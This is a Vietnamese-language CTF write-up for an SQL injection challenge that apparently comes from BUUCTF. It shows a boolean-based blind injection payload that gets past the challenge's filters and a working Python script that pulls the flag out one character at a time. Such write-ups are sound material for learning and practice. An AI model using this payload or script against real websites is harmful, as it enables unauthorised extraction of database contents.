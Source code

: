 Challenge cho ta 1 form để sumbit, và cho biết table, column là `flag`. Sau đó mình thử sumbit đại 

```
id = 1 ---> Hello, glzjin wants a girlfriend.
id = 2 --->  Do you want to be my girlfriend?
id = 3,4,..... ---> Error Occured When Fetch Result.
```
Bởi vì bài này có tag là sql nên mình thử fuzz một vài payload.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/840a05dd-5ea1-457b-a79e-f7ee2fe53e67)

Nhưng mà bị filter gần hết. Sau đó thì mình có thử boolean

```
1=1 ---> Hello, glzjin wants a girlfriend. /// 	select * from abc where id = 1 = 1 /// select * from xxx where id = 1 = TRUE;

1=2 ---> Error Occured When Fetch Result.
1=0 --->  Do you want to be my girlfriend? /// select * from abc where id = 1 = 0 /// select * from xxx where id = 1 = FALSE;
```

Bởi vì là trong SQL 1 là TRUE và 2 là FLASE. Như vậy khi mình nhập 1=1 có nghĩa là `1=TRUE` thì trả về `id=1`, còn với 1=0 nghĩa là `id=1=Fasle` nên trả về `id=2`.Bởi vì 2 chỉ là 1 số bình thường nên khi nhập `1=2` sẽ trả về lỗi

Payload:
`1=(ascii(substr((select(flag)from(flag)),1,1))=100)`

Kết quả trả về là ` Do you want to be my girlfriend?` là FALSE nên payload này đúng.

```python
import requests
s = requests.session()
url = "http://eac5836a-8b85-4734-8978-e7cac7166c02.node4.buuoj.cn:81/index.php"
pos = 0
flag = ''
while True:
    pos += 1
    for i in range(45, 127):
        payload = f"1=((ascii(substr((select(flag)from(flag)),{pos},1))={i}))"
        print("testing"+chr(i))
        r = s.post(url, data={'id':payload})
        if "glzjin " in r.text:
            flag+=chr(i) 
            break   
    else:
        break
print(flag)
```
![image](https://github.com/Llam-a/BUUCTF/assets/115911041/92e9ddbd-3955-4c45-89e9-91f4c139e290)
